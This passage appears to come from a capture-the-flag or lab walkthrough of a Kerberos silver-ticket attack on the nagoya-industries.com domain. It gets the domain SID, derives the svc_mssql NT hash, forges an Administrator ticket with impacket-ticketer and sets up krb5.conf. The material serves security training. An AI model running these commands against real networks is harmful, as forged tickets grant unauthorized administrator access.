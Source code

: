 Domain SID:

```powershell
whoami /user
```

![image.png](image%2029.png)

```bash
Domain SID: S-1-5-21-1969309164-1513403977-1686805993
```

Use this [tool](https://codebeautify.org/ntlm-hash-generator) to get the NT hash of svc_mssql:



```bash
NT hash: E3A0168BC21CFB88B95C954A5B18F57C
```

```bash
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn NONEXIST/nagoya.nagoya-industries.com -user-id 500 Administrator
```

```bash
export KRB5CCNAME=$PWD/Administrator.ccache
```

After that we should modify `/etc/krb5.conf`:

```bash
[libdefaults]
    default_realm = NAGOYA-INDUSTRIES.COM
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true

[realms]
    nagoya-industries.com = {
        kdc = nagoya.nagoya-industries.com
        admin_server = nagoya.nagoya-industries.com
    }

[domain_realm]
    .NAGOYA-INDUSTRIES.COM = NAGOYA-INDUSTRIES.COM
    NAGOYA-INDUSTRIES.COM = NAGOYA-INDUSTRIES.COM
```

You need to configure `/etc/krb5.conf` so that Kerberos tools (like `kinit`, `GetUserSPNs.py`, `mssqlclient.py`, etc.) know:

1. **Which domain (realm)** you’re working with.
2. **Where the Domain Controller (KDC)** is located.
3. **How to resolve service tickets** like `MSSQLSvc/host.domain`.

Without it, Kerberos-based authentication and attacks won’t work properly.
